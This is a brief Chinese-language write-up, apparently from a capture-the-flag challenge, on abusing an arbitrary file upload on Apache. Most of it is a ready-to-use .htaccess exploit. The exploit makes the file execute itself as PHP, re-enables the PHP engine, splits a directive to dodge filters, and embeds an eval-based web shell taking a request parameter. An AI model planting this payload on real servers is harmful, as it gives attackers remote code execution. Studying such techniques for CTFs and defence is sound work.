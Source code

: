 # .htaccess的一些技巧

题目给了源代码，存在任意文件上传漏洞
但apache2.conf中把上传目录的php解析关了
如果直接上传php_flag engine on会没用

使用下面exp即可 (.htaccess)

<Files .htaccess>
ForceType application/x-httpd-php
SetHandler application/x-httpd-php
Require all granted
php_flag engine on
</Files>
php_value auto_prepend_fi\
le .htaccess
#<?php eval($_REQUEST['evoA'])?>